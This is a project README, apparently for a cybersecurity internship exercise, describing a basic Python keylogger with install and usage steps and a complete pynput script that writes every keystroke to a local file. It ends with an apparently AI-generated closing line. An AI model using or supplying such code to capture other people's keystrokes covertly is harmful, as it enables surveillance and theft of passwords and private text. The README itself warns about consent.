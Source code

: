 
```markdown
# Simple Keylogger

This Python script implements a basic keylogger that records and logs keystrokes. It captures keys pressed by the user and saves them to a specified file (`keylog.txt` by default). It is essential to handle ethical considerations and permissions responsibly when working with keyloggers.

## Features

- **Keystroke Logging**: Records each keystroke (including special keys) and logs them to a text file.
- **Graceful Exit**: Stops logging when the `Esc` key is pressed.
- **Error Handling**: Handles different types of key events gracefully using `pynput.keyboard`.

## Requirements

- Python 3.x
- Libraries: pynput

## Installation

1. Install the required libraries using pip:

   ```bash
   pip install pynput
   ```

2. Clone the repository or download the `keylogger.py` script.

## Usage

1. Run the `keylogger.py` script:

   ```bash
   python keylogger.py
   ```

2. Start typing. The keylogger will start recording keystrokes and save them to `keylog.txt`.

3. To stop the keylogger, press the `Esc` key.

## Notes

- **Ethical Considerations**: Ensure that you have explicit permission to use a keylogger, as logging keystrokes without consent may violate privacy laws.
- **File Security**: Store and handle the log file (`keylog.txt`) securely, as it contains sensitive information.
- **Customization**: Modify the script as needed to suit specific requirements, such as changing the log file path or adding additional logging functionality.

## Example

```python
from pynput import keyboard

log_file_path = "keylog.txt"
keys = []

def on_press(key):
    try:
        keys.append(key.char)
        with open(log_file_path, "a") as log_file:
            log_file.write(key.char)
    except AttributeError:
        keys.append(str(key))
        with open(log_file_path, "a") as log_file:
            log_file.write(f" [{str(key)}] ")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Acknowledgements

This project was created with the support of [Prodigy InfoTech].

## License

This project is licensed under the MIT License - see the LICENSE file for details.
```

Feel free to adjust the content to fit your specific project details or organizational requirements. Ensure to replace `[Your Organization Name]` with the appropriate name if applicable.
# PRODIGY_CS_04
